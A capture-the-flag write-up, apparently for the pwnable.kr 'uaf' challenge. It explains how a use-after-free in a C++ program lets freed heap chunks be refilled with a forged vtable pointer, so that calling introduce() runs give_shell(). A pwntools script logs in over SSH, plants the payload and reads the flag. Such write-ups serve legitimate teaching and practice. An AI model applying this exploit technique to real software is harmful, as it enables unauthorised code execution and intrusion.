 Note: a vtable is associated to a class, and allocated objects of the class in the heap (with the new keyword) will include a chunk containing their vtable address. vtables are present in the binary. 
When we want to call functions defined inside the class, their addresses will be found in the vtable corresponding to the address present in the object's heap chunk.
In this challenge, after freeing the chunks, we can overwrite the chunks of size ``0x20`` (that contain vtable address) by the content of the file passed in argv[2]. We will specify a size of 0x18 to ensure it is the 0x20 chunks that are going to be reused (it will be 16-bit aligned).
Moreover, we have a use after free vulnerability: ``Man::introduce()`` can still be called after the free. We are going to exploit this by modifying the address of the vtable used by the ``m`` object.

introduce is the second function for Man vtable. We have:
``*(man_vtable+0x10)``   is ``give_shell`` address
``*(man_vtable+0x10+8)`` is ``introduce`` address

Note: first function in the vtable is after a 0x10 offset. In the heap, it is ``vtable+0x10`` that is stored.

If we decrease ``(vtable+0x10)`` address by 8, trying to call ``m->introduce`` will result in calling ``m->give_shell``.

first function of the old vtable (give_shell) :
```python
old_vtable_1F =  elf.symbols["_ZTV3Man"]+0x10```
give_shell takes the place of introduce as second function :
```python
new_vtable_1F =  old_vtable_1F-8
```

```python
from pwn import *
elf = ELF("uaf")
shell = ssh("uaf", "pwnable.kr", password="guest", port=2222)
wp = shell.process(["cat", "/dev/stdin", ">>", "/tmp/payload"])
wp.send(p64(new_vtable_1F))
wp.close()

p = shell.process(["./uaf", "24", "/tmp/payload"])
print p.recv()
p.sendline("3") 
print p.recv()
p.sendline("2") 
```
It's w heap chunk that is going to be reused the first time. So we have to store the payload twice, since ``m->introduce`` is called before ``w->introduce``
```python
print p.recv()
p.sendline("2")
print p.recv()
p.sendline("1")
print p.recv()
p.sendline("cat flag")
print p.recv()
```

